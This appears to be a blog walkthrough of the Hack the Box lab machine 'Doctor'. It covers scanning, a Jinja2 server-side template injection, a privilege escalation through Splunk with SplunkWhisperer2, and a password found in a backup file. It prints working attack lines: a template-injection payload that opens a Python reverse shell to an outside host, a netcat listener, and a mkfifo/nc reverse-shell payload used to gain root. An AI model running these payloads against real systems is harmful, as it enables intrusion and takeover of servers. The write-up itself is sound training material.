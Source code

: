 +++
author = "Nick"
categories = ["hack the box", "easy", "Linux", "splunk", "reverse shell", "Server Side Template Injection"]
date = 2021-05-01T17:02:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/11/doctor.png"
slug = "hack-the-box-doctor"
tags = ["hack the box", "easy", "Linux", "splunk", "reverse shell", "Server Side Template Injection"]
title = "Hack the Box - Doctor"

+++


Welcome back! Today we are doing the Hack the Box machine - Doctor. This machine is listed as an Easy Linux machine. Let's jump in!

At this point, you know how we kick it off. That's right, `nmap`.

Command:
`nmap -sC -sV -p- -oA allscan 10.10.10.209`

Here are our results:
```
Nmap scan report for 10.10.10.209
Host is up (0.045s latency).                                                                                                                                                                       
Not shown: 65532 filtered ports                                                                                                                                                                    
PORT     STATE SERVICE  VERSION                                                                                                                                                                    
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)                                                                                                               
| ssh-hostkey:                                                                                                                                                                                     
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)                                                                                                                                     
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)                                                                                                                                    
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)                                                                                                                                  
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))                                                                                                                                             
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                                                                                                       
|_http-title: Doctor                                                                                                                                                                               
8089/tcp open  ssl/http Splunkd httpd                                                                                                                                                              
| http-robots.txt: 1 disallowed entry                                                                                                                                                              
|_/                                                                                                                                                                                                
|_http-server-header: Splunkd                                                                                                                                                                      
|_http-title: splunkd                                                                                                                                                                              
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser                                                                                                                
| Not valid before: 2020-09-06T15:57:27                                                                                                                                                            
|_Not valid after:  2023-09-06T15:57:27                                                                                                                                                            
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                                                                                                            
                                                                                                                                                                                                   
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                     
Nmap done: 1 IP address (1 host up) scanned in 150.43 seconds  
```

So not much to see. We have a required key SSH option, a site being hosted  on 80 and potentiall 8089. It would seem that a path forward could be through `Splunk`. Awesome! As someone that uses Splunk on the daily, this should be fun.

When we visit the site being hosted, we are greated with a site dedicated to doctors. We see a site listed as doctors.htb, so we'll add that to our hosts lists. This way we can fuzz additional subdomains.

Next we kick of a `gobuster` scan to see what we can find.

Command:
`gobuster dir -u doctors.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,php -t 40`

We get back some basic pages.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-7.png" >}}

Let's try to access some of these 'hidden' pages, like `archive` and `login`. Nothing is there. If we navigate to 'doctors.htb' we are prompted with a login page. Checking the source does show the `archives` page as well.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-8.png" >}}

We can test the login page for basic injections but doesn't seem to be anything there. We can register an account though. We create the account and are given 20 minutes of access. Once we get authenticated we have a very small interface to work with.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-9.png" >}}

We can create new messages it seems.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-10.png" >}}

It's possible this field has some injection options. If we submit an `<h1>` tag, we can see it does reflect the HTML code.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-11.png" >}}

What's interesting about this is that the messages we send are also posted over to `/archive` as well.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-12.png" >}}

As we do more recon about the site, we see that `wappalyzer` has the site framework as `python`. So there are a few scenarios here. This form could be `XSS` or it oculd be `Template Injection` vulnerable. My guess would be the latter. You can read more on `Template Injection` [here](https://portswigger.net/research/server-side-template-injection).

If we google Python Template engine, we see the first result is `jinja`. If we google jinja template injection we see a few options, a good resource being [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings

We can test against this use case by doing just what's listed:

{{< figure src="__GHOST_URL__/content/images/2020/11/image-13.png" >}}

Sure enough, we do get the expected results!


{{< galleryImg  src="__GHOST_URL__/content/images/2020/11/1.png" width="272" height="166" >}}{{< galleryImg  src="__GHOST_URL__/content/images/2020/11/12.png" width="293" height="96" >}}

So now, how do we leverage this? We simply leverage the supplied [Remote Code statement](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)!

Since it is `python` based, we can actually modify this statement to supply a standard `python` remote shell.

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.169\",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

We also need to ensure our listener is running on port 9090.

Command:
`nc -lvnp 9090`

We submit the message, check the archive page and we get a shell!

{{< figure src="__GHOST_URL__/content/images/2020/11/image-15.png" >}}

Now that we have a low level shell, we can enumerate and escalate. We'll copy over `linpeas` and see what show up.

Make sure you have a web server running in your peas location.

Command:
`python -m SimpleHTTPServer 80`

Then download `linpeas`.

Command:
`wget 10.10.14.169/linpeas.sh`

Change the file permissions.

Command:
`chmod +x linpeas.sh` 

Then run it.

There's a lot to sift through. We do however, find a password in an old backup file:

{{< figure src="__GHOST_URL__/content/images/2020/11/image-16.png" >}}

We can a assume the user typed his password in the email field here. And given the lines below it, make the assumption that the user is shaun. We'll just switch to Shaun and see.

Command:
`su shaun`

{{< figure src="__GHOST_URL__/content/images/2020/11/image-17.png" >}}

Now if we upgrade our shell and snag our `user.txt` flag. Once we have it, we can start enumerating again. We'll re-run `linpeas` and see what it can find. An item that semi-sticks out is that `root` is running the `splunkd` process.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-18.png" >}}

If you've spent anytime working with `Splunk` you know this is a potentially bad scenario. Items like [SplunkWhisperer2](https://github.com/DaniloCaruso/SplunkWhisperer2) can make for a really bad day.

We'll clone the repo.

Command:
`git clone https://github.com/DaniloCaruso/SplunkWhisperer2`

Now we can use this to escalate our privileges. Simply supply the right commands to get a shell back or even just snag our flag file.

Command:
`python PySplunkWhisperer2_remote.py --lhost 10.10.14.169 --host 10.10.10.209 --username shaun --password Guitar123 --payload '/bin/bash -c "rm /tmp/zzz;mkfifo /tmp/zzz;cat /tmp/zzz|/bin/sh -i 2>&1|nc 10.10.14.169 6666 >/tmp/zzz"'`

{{< figure src="__GHOST_URL__/content/images/2020/11/image-19.png" >}}

We  get a shell back as root! We get our flag and the box is done!



